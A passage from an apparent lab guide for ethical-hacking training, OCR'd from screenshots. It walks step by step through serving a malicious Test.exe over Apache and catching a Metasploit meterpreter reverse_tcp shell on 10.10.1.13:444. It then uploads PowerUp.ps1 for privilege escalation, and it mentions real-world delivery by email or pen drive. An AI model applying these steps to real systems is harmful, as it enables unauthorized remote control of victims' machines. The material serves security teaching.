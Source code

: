 	7. This will generate Test.exe, a malicious file at the location /home/attacker/Desktop, as shown in the screenshot.
	
	8. Now, create a directory to share this file with the target machine, provide the permissions, and copy the file from Desktop to the shared location using the below commands:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
	• Copy the malicious file to the shared location by typing cp /home/attacker/Desktop/Test.exe /var/www/html/share and pressing Enter
Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it via an attachment in an email or through physical means such as a hard drive or pen drive.
	
	9. Now, start the apache service. To do this, type service apache2 start and press Enter.
	
	10. Type msfconsole and press Enter to launch the Metasploit framework.
	
	11. In msfconsole, type use exploit/multi/handler and press Enter.
	
	12. Now, set the payload, LHOST, and LPORT. To do so, use the below commands:
	• Type set payload windows/meterpreter/reverse_tcp and press Enter
	• Type set LHOST 10.10.1.13 and press Enter
	• Type set LPORT 444 and press Enter
	13. After entering the above details, type exploit and press Enter to start the listener.
	
	14. Click Windows 11 to switch to the Windows 11 machine.
	15. Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type http://10.10.1.13/share and press Enter. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
	16. Click Test.exe to download the file.
10.10.1.13 is the IP address of the host machine (here, the Parrot Security machine).
	
	17. Once you click on the Test.exe file, the Opening Test.exe pop-up appears; select Save File.
	
	18. The malicious file will download to the browser’s default download location (here, Downloads). Now, navigate to this location and double-click the Test.exe file to run it.
	
	19. The Open File - Security Warning window appears; click Run.
	
	20. Leave the Windows 11 machine running, so that the Test.exe file runs in the background and click Parrot Security to switch to the Parrot Security machine.
	21. Observe that one session has been created or opened in the Meterpreter shell, as shown in the screenshot.
	
	22. Type sysinfo and press Enter to verify that you have hacked the targeted Windows 11.
If the Meterpreter shell is not automatically connected to the session, type sessions -i 1 and press Enter to open a session in Meterpreter shell.
	
	23. Now, type upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1 and press Enter. This command uploads the PowerSploit file (PowerUp.ps1) to the target system’s present working directory.
PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.
more...
	
	24. Type shell and press Enter to open a shell session. Observe that the present working directory points to the Downloads folder in the target system.
	